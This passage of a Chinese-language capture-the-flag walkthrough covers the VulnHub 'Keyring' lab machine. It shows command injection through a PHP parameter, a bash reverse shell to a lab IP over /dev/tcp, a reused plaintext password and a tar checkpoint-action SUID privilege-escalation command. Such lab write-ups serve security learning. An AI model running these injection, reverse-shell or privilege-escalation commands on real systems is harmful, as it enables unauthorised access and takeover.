 以`admin`和获取的密码直接登录，然后去测试`crontal.php`界面

```shell
http://192.168.10.10/control.php?cmdcntr=id
```

![](D:\stu\vulnhub\IA靶场\Keyring-pic\22.jpg)

命令执行了，那么就构造一个反弹`shell`，需要先在`kali`中使用`nc`开启监听9999端口



```shell
/bin/bash -c 'bash -i >& /dev/tcp/192.168.10.2/9999 0>&1'
#经过URL编码处理一下
/bin/bash+-c+'bash+-i+>%26+/dev/tcp/192.168.10.2/9999+0>%261'
```

![](D:\stu\vulnhub\IA靶场\Keyring-pic\23.jpg)

使用前面从数据库中查询到的`john`的密码`Sup3r$S3cr3t$PasSW0RD`进行测试，发现可以登录，一码多用啊

![](D:\stu\vulnhub\IA靶场\Keyring-pic\24.jpg)

查看`john`家目录下的`flag`

![](D:\stu\vulnhub\IA靶场\Keyring-pic\25.jpg)

使用`find`寻找具有SUID权限文件，发现当前目录下就有一个



```shell
find / -perm -4000 -print 2>/dev/null
```

![](D:\stu\vulnhub\IA靶场\Keyring-pic\26.jpg)

# tar  文件名提权

发现文件为可执行文件，并且是相当于`tar`命令

![](D:\stu\vulnhub\IA靶场\Keyring-pic\27.jpg)

还是下载这个文件到`kali`中，然后分析

![](D:\stu\vulnhub\IA靶场\Keyring-pic\28.jpg)

把当前目录下的所有文件，压缩至`archive.tar`

那么根据这个尝试构造文件名，使得在进行压缩的时候，进行一个连接匹配，导致语句的执行

一般`tar`的suid提权大概是下面这样



```shell
/bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
